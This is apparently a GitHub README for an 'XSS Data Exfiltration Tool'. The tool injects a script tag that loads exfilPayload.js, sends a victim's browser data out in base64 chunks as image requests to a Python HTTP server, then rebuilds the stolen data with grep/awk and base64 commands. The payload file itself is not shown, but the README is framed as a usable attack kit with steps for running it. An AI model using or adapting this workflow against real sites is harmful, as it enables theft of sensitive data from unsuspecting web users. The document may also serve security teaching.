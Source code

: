 # XSS-Data-Exfil-Kit
XSS Data Exfiltration Tool

This code demonstrates data exfiltration through an XSS (Cross-Site Scripting) vulnerability. The XSS payload is designed to extract sensitive data from the victim's web browser and divide it into manageable chunks. These chunks are then sent out as image requests, with the data embedded in the image filenames. The process also includes example commands and a Python script for reconstructing the original data.

For a detailed walkthrough with screenshots, please refer to our blog post at this link: Simple Data Exfiltration Through XSS.

To make the payload target specific sensitive data accessible to the victim, you can customize the "exfilPayload.js" file.

Here are the steps involved:

<script src="http://127.0.0.1/exfilPayload.js"></script>

Start a Python HTTP server in the directory where "exfilPayload.js" is located:

bash
python -m SimpleHTTPServer 80

"exfilPayload.js" will send the data chunks to the same server.

Collect these requests into a text file and clean them up:

bash
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt


Use the provided Python script to reconstruct the original data.

Finally, assemble the data chunks together using:

bash    
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

                                              For more details, please refer to the corresponding blog post for a step-by-step guide.

